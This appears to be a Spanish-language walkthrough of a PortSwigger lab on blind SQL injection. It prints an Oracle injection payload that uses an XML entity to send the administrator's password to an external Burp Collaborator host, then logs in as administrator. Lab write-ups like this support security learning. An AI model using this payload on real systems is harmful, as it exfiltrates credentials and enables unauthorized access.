 ```yaml
---
title: "16 Blind SQL injection with out of band data exfiltration"
collection: publications
category: portswigger
permalink: /publications/16_Blind SQL injection with out of band data exfiltration
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL fuera de banda para obtener la contraseña del administrador.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with out of band data exfiltration'
---
```


![logo]({{site.url}}/images/SQLi/sqli-16/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-16/descripcion.png)

## Objetivo del laboratorio

* Explotar una vulnerabilidad SQLi para obtener el password del usuario administrator.
* Login como usuario administrador

# Cheat Sheet

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![Cheet]({{site.url}}/images/SQLi/sqli-16/cheet.png)

# Servidor

Obtenemos un servidor desde la pestaña `Collaborator`

`nc33sjxg8k7bhtlz9h7khabde4kv8nwc.oastify.com`

Usamos los payloads que nos proporciona la hoja de trucos de Burp y le colocamos el servidor que nos proporciono.

```sql
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.nc33sjxg8k7bhtlz9h7khabde4kv8nwc.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

![payload]({{site.url}}/images/SQLi/sqli-16/payload.png)

Abrimos el colaborator y vemos la contraseña del usuario `administrator`

![resultado]({{site.url}}/images/SQLi/sqli-16/resultado.png)

## Login

![login]({{site.url}}/images/SQLi/sqli-16/login.png)

## Resuelto

![resuelto]({{site.url}}/images/SQLi/sqli-16/aprobado.png)